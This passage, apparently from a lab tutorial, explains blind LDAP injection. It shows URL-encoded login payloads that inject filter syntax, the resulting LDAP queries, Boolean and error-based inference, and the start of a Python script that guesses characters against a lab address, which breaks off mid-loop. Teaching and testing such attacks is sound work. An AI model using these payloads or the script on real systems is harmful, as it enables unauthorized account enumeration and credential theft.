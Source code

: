 **Resulting LDAP Query:**

```bash
(&(uid=a*)(|(&)(userPassword=pwd))) 
```



If the application returns "Something is wrong in your password", the attacker can infer that a user with an account that starts with "a" in their uid exists in the LDAP directory. To check for the next character, an attacker can reiterate the payload with the next character, for example:

**Injected Username and Password:**

```php
username=ab*%29%28%7C%28%26&password=pwd%29
```

**Resulting LDAP Query:**

```php
(&(uid=ab*)(|(&)(userPassword=pwd))) 
```

This indicates that the next character is not "b". An attacker can automate this kind of check by iteratively guessing the characters of the email by observing the web application's behaviour in response to crafted input, similar to a Boolean-based SQL Injection attack.

### Techniques for Extracting Information

1. **Boolean Exploitation:** This involves injecting conditions that are evaluated to be true or false and observing the application's response to infer data. For example, if the application behaves differently when the condition is true, the attacker can deduce that the injected condition matches an existing entry in the LDAP directory.
2. **Error-Based Inference:** In some cases, specific injections might trigger error messages or peculiar application behaviour, providing clues about the LDAP structure or confirming the success of particular payloads.

## Automating the Exploitation

### Exploit Code

To automate the exfiltration of data in the previous task, you can use the Python script below:

```python
import requests
from bs4 import BeautifulSoup
import string
import time

# Base URL
url = 'http://10.10.145.164/blind.php'

# Define the character set
char_set = string.ascii_lowercase + string.ascii_uppercase + string.digits + "._!@#$%^&*()"

# Initialize variables
successful_response_found = True
successful_chars = ''

headers = {
    'Content-Type': 'application/x-www-form-urlencoded'
}

while successful_response_found:
    successful_response_found = False

    for char in char_set:
        #print(f"Trying password character: {char}")
```